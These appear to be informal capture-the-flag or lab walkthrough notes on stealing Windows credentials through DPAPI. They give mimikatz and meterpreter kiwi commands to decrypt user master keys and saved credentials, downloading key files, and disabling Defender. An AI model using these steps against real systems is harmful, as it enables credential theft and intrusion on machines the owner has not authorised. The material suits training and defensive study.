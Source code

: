 ```
copy mimikatz.exe C:\Windows\System32\spool\drivers\color
cd C:\Windows\System32\spool\drivers\color
.\mimikatz.exe
```
but it also didn't work
- he tried to set up a meterpreter using unicorn.rc and msf.ps1
- ad tried using empire.ps1
```
msfdb run
```
it starts the database if its not started and starts msfconsole
so we can use kiwi in in metasploit
search google `dpapi harmj0y`
[Operational Guidance for Offensive User DPAPI Abuse | by Will Schroeder | Posts By SpecterOps Team Members](https://posts.specterops.io/operational-guidance-for-offensive-user-dpapi-abuse-1fb7fac8b107)
```ad-note
anything windows or AD related jut put the term and then harmj0y in it
```

```
kiwi_cmd '"dpapi::"'
```
- (Follow the guide in that link) in our meterpreter session, we do
```
cd /users/security/appdata/Roaming/Microsoft/Protect/<SID>
```
and you will see the masterkey(2 master keys, pick the one you know the box was created)
then do 
```
kiwi_cmd '"dpapi::masterkey /in:\users\security\appdata\Roaming\Microsoft\Protect\<SID>\<key>"'
```
but it didn't work
so we dowload them instead
download 0*
download 4*
we try to use the masterkey generated for each of these files so we can see which one of them works and gives the clear text password
- the best way to run mimikatz is not to run it at all but to grab the files in that directory and also grab the file
```
\users\security\appdata\Roaming\Microsoft\Credentials
```
download 51*

- start the smbserver and grab the files on a windows machine
- set defender status to off
- copy mimikatz to the windows too
- then we can run
```
dpapi::masterkey /in:<paste masterkey filename> /sid:<sid> /password:
```
to decrypt the file we put in the SID of the user
this is to extract the master key
and the password of the user, which is the one we retrieved from the mailbox
- so now we have the `key` we can do another dpapi call
```
dpapi::cred /in:<filename of that file from the credentials dir>
```
 and we get the credentials in plain text

